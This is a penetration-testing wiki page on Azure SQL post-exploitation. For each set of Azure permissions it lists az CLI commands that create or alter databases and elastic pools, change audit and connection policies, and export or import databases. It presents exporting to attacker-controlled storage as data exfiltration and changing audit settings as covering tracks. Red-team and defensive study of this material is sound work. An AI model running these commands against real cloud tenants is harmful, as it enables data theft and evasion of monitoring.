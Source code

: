 # Az - SQL Database Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## SQL Database Post Exploitation

For more information about SQL Database check:

{{#ref}}
../az-services/az-sql.md
{{#endref}}

### "Microsoft.Sql/servers/databases/read", "Microsoft.Sql/servers/read" && "Microsoft.Sql/servers/databases/write"

With these permissions, an attacker can create and update databases within the compromised environment. This post-exploitation activity could allow an attacker to add malicious data, modify database configurations, or insert backdoors for further persistence, potentially disrupting operations or enabling additional malicious actions.

```bash
# Create Database
az sql db create --resource-group <resource-group> --server <server-name> --name <new-database-name>

# Update Database
az sql db update --resource-group <resource-group> --server <server-name> --name <database-name> --max-size <max-size-in-bytes>
```

### "Microsoft.Sql/servers/elasticPools/write" && "Microsoft.Sql/servers/elasticPools/read"

With these permissions, an attacker can create and update elasticPools within the compromised environment. This post-exploitation activity could allow an attacker to add malicious data, modify database configurations, or insert backdoors for further persistence, potentially disrupting operations or enabling additional malicious actions.

```bash
# Create Elastic Pool
az sql elastic-pool create \
    --name <new-elastic-pool-name> \
    --server <server-name> \
    --resource-group <resource-group> \
    --edition <edition> \
    --dtu <dtu-value>

# Update Elastic Pool
az sql elastic-pool update \
    --name <elastic-pool-name> \
    --server <server-name> \
    --resource-group <resource-group> \
    --dtu <new-dtu-value> \
    --tags <key=value>
```

### "Microsoft.Sql/servers/auditingSettings/read" && "Microsoft.Sql/servers/auditingSettings/write"

With this permission, you can modify or enable auditing settings on an Azure SQL Server. This could allow an attacker or authorized user to manipulate audit configurations, potentially covering tracks or redirecting audit logs to a location under their control. This can hinder security monitoring or enable it to keep track of the actions. NOTE: To enable auditing for an Azure SQL Server using Blob Storage, you must attach a storage account where the audit logs can be saved.

```bash
az sql server audit-policy update \
  --server <server_name> \
  --resource-group <resource_group_name> \
  --state Enabled \
  --storage-account <storage_account_name> \
  --retention-days 7
```

### "Microsoft.Sql/locations/connectionPoliciesAzureAsyncOperation/read", "Microsoft.Sql/servers/connectionPolicies/read" && "Microsoft.Sql/servers/connectionPolicies/write"

With this permission, you can modify the connection policies of an Azure SQL Server. This capability can be exploited to enable or change server-level connection settings

```bash
az sql server connection-policy update \
  --server <server_name> \
  --resource-group <resource_group_name> \
  --connection-type <Proxy|Redirect|Default>
```

### "Microsoft.Sql/servers/databases/export/action"

With this permission, you can export a database from an Azure SQL Server to a storage account. An attacker or authorized user with this permission can exfiltrate sensitive data from the database by exporting it to a location they control, posing a significant data breach risk. It is important to know the storage key to be able to perform this.

```bash
az sql db export \
  --server <server_name> \
  --resource-group <resource_group_name> \
  --name <database_name> \
  --storage-uri <storage_blob_uri> \
  --storage-key-type SharedAccessKey \
  --admin-user <admin_username> \
  --admin-password <admin_password>

```

### "Microsoft.Sql/servers/databases/import/action"

With this permission, you can import a database into an Azure SQL Server. An attacker or authorized user with this permission can potentially upload malicious or manipulated databases. This can lead to gaining control over sensitive data or by embedding harmful scripts or triggers within the imported database. Additionaly you can import it to your own server in azure. Note: The server must allow Azure services and resources to access the server.

```bash
az sql db import --admin-user <admin-user> \
--admin-password <admin-password> \
--name <target-database-name> \
--server <azure-sql-server-name> \
--resource-group <resource-group-name> \
--storage-key-type SharedAccessKey \
--storage-key <storage-account-key> \
--storage-uri "https://<storage-account-name>.blob.core.windows.net/bacpac-container/MyDatabase.bacpac"
```

{{#include ../../../banners/hacktricks-training.md}}




